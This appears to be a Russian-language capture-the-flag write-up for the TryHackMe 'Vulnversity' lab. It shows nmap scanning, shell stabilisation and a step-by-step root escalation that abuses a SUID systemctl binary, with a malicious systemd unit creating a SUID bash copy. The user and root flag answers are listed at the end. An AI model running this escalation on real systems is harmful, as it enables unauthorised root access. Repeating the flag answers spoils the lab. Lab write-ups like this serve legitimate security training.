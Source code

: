 # TryHackMe - Vulnversity

📅 Дата: 2025-07-01  
🧠 Сложность:  easy  
💻 IP-адрес: 10.10.249.11  

---

## 🔍 Сканирование

```bash
export ip=10.10.249.11
export ports=$(sudo nmap -sS -p- $ip | grep -oP "^[0-9]+(?=/tcp\s+open)" | sort -n | paste -sd ",")
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

🖼️ Nmap скан:

![nmap scan](screenshots/nmap_scan.png)

---

## 🕵️ Enumeration



## 📂 Получение доступа

Стабилизация
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


## ⚙️ Привилегии

SUID find
```bash
www-data@ip-10-10-249-11:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
...
```
### /bin/systemctl

**1. Создание временного .service-файла**
```bash
TF=$(mktemp).service
```
 - mktemp создаёт уникальный временный файл (например, /tmp/tmp.ABCD1234).
 - Добавляется .service, чтобы systemd воспринимал его как юнит.

**2. Построчная запись вредоносного юнита systemd**
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
[Install]
WantedBy=multi-user.target' > $TF
```
 - [Service] – секция, определяющая сервис.
   - Type=oneshot – означает, что сервис выполнится один раз и завершится (не демонизируется).
   - ExecStart=... – команда, которая выполнится при старте сервиса. В данном случае:
     - cp /bin/bash /tmp/root – копирует /bin/bash в /tmp/root.
     - chmod +xs /tmp/root – добавляет SUID-бит (+s), чтобы /tmp/root запускался с правами владельца (root).
 - [Install] – секция, указывающая, когда сервис должен запускаться.
   - WantedBy=multi-user.target – сервис будет активирован при загрузке системы в многопользовательском режиме.

**3. Связывание сервиса с systemd**
```bash
systemctl link $TF
```
 - systemctl link создаёт символическую ссылку из /etc/systemd/system/ на временный файл.
 - Теперь systemd "видит" этот сервис и может им управлять.

**4. Активация сервиса (моментальный запуск)**
```bash
systemctl enable --now $TF
```
 - enable – добавляет сервис в автозагрузку (создаёт симлинк в /etc/systemd/system/multi-user.target.wants/).
 - --now – сразу запускает сервис (выполняет ExecStart).

**Что происходит?**
Systemd (работающий от root) выполняет команду:
```bash
/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
```
В /tmp/ появляется файл root – это копия /bin/bash с SUID-битом.

**5. Запуск SUID-баша с правами root**
```bash
/tmp/root -p
```
 - **-p** – сохраняет привилегии (иначе bash сбрасывает SUID).


## 🏁 Флаги

- User flag: 8bd7992fbe8a6ad22a63361004cfcedb
- Root flag: a58ff8579f0a9270368d33a9966c7fd5

---

